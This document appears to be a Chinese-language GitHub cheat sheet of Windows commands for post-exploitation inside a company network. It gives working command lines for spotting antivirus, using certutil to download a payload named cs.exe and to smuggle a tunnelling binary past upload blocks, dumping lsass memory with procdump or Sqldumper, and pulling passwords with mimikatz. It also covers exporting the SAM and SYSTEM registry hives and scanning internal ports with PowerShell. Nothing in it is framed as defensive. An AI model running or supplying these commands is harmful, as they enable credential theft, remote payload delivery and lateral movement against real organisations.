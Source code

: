# Intranet Cmd

---

内网渗透常用cmd命令

```
tasklist /svc  # 查看杀软情况
certutil -urlcache -split -f https://xxxxxx cs.exe   # 下载文件输出cs.exe
```

远程内存dump，本地使用mimikatz读取dump文件中域用户登陆次电脑中保存的密码

- procdump下载：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump
- mimikatz下载：https://github.com/gentilkiwi/mimikatz/releases

```
procdump64.exe -accepteula -ma lsass.exe 1.dmp   # dump内存
makecab .\1.dmp  1.zip                           # windows自带压缩
下载1.zip，本地解压使用：
mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```

sqlserver dump(来源:https://xz.aliyun.com/t/9831)

```
dir /s/a-d/b C:\*sqldumper.exe   # 查看是否有sqlserver,切换到该目录
for /f  "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do Sqldumper.exe %i 0 0x01100   # 查看是否有sql保存凭证
mimikatz.exe  "sekurlsa::minidump SQL.dmp" "sekurlsa::logonPasswords full" exit
```

sam数据库(来源:https://xz.aliyun.com/t/9831)

```
reg save hklm\sam .\sam.hive&reg save hklm\system .\system.hive
mimikatz.exe "lsadump::sam /system:sys.hive /sam:sam.hive"
```

powershell 版mimikatz

```
https://github.com/Stealthbits/poshkatz
```

powershell 版内网扫描

```
https://github.com/samratashok/nishang/blob/master/Scan/Invoke-PortScan.ps1
Invoke-PortScan -StartAddress 192.168.0.1 -EndAddress 192.168.10.254 -ResolveHost -ScanPort
```

bypass windows不能上传exe

```
本地把目标exe编码输出txt，挂到服务器上
CertUtil -encode frpc.exe frpc.txt
靶机把txt下载下来
certutil.exe -urlcache -split -f frpc.txt的地址
靶机将txt解码成exe
CertUtil -decode frpc.txt frpc.exe
```

